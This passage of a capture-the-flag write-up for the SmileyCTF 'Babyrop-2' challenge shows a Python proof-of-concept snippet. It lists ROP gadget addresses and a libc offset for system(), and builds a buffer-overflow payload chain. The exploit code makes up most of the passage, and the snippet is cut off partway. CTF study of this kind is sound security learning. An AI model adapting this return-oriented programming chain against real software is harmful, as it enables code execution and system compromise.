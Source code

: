 After each calculations and chaining the gadgets. The result as expected.


![760ad4710464015017e90f8536db37a2.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/760ad4710464015017e90f8536db37a2.png)

The chain inside PoC. I kept the variable names same with PoC creator.

```python
#...
PUSH_RBP_MOV_RBP_RSP_poprcx = 0x40117a
MOV_RBP_RSP_poprcx = 0x40117b
ADD_EAX_0x2ec3_addrbp0x3debx = 0x401157
ADD_RPBs0x3d_EBX = 0x40115c
ADD_AH_DH = 0x4010b4
ADD_BL_DH = 0x4010bf
POP_RBP = 0x401181
ADD_RSP_8 = 0x401230
RET = 0x401234
POP_RCX = 0x40117e
ADD_BPRCX_AL_poprbp = 0x40115b
MOV_EAX_0_LEAVE = 0x401221

PRINT_CALL = 0x401211

LIBC_POP_RBX = 0x83e21
SYSTEM = 0x58750

writeable = 0x404500

rcxpyld  = p64(ADD_BPRCX_AL_poprbp)
rcxpyld += p64(writeable)

payload = p64(0x5151515151515151)*5
payload += p64(POP_RCX)
payload += p64(0x404011)
payload += p64(POP_RBP)
payload += p64(writeable)
payload += p64(ADD_EAX_0x2ec3_addrbp0x3debx)*1
```